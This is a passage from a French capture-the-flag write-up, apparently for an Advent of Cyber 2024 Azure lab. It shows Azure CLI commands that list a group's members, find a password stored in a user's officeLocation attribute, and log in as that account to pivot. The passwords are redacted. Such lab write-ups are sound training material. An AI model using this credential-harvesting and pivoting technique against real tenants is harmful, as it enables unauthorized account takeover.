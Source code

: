 Nous trouvons que le compte `wvusr-backupware` fait partie du groupe `Secret Recovery Group` et la rubrique `officeLocation` indique également le même mot de passe qu'observé au début de notre reconnaissance.

```bash
az ad group member list --group "Secret Recovery Group"
```

{% capture spoil %}
[
  {
    "@odata.type": "#microsoft.graph.user",
    "businessPhones": [],
    "displayName": "wvusr-backupware",
    "givenName": null,
    "id": "1db95432-0c46-45b8-b126-b633ae67e06c",
    "jobTitle": null,
    "mail": null,
    "mobilePhone": null,
    "officeLocation": "[...expurgé...]",
    "preferredLanguage": null,
    "surname": null,
    "userPrincipalName": "wvusr-backupware@aoc2024.onmicrosoft.com"
  }
]
{% endcapture %}
{% include elements/spoil.html %}

Nous pivotons avec succès sur le compte `wvusr-backupware`

```bash
az account clear
Logout successful. Re-login to your initial Cloud Shell identity with 'az login --identity'. Login with a new identity with 'az login'.

az login -u wvusr-backupware@aoc2024.onmicrosoft.com -p R[...expurgé...]s!
```

{% capture spoil %}
Authentication with username and password in the command line is strongly discouraged. Use one of the recommended authentication methods based on your requirements. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314
Cloud Shell is automatically authenticated under the initial account signed-in with. Run 'az login' only if you need to use a different account
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "1ad8a5d3-b45e-489d-9ef3-b5478392aac0",
    "id": "ddd3338d-bc5a-416d-8247-1db1f5b5ff43",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Az-Subs-AoC",
    "state": "Enabled",
    "tenantDefaultDomain": "aoc2024.onmicrosoft.com",
    "tenantDisplayName": "AoC 2024",
    "tenantId": "1ad8a5d3-b45e-489d-9ef3-b5478392aac0",
    "user": {
      "name": "wvusr-backupware@aoc2024.onmicrosoft.com",
      "type": "user"
    }
  }
]
{% endcapture %}
{% include elements/spoil.html %}
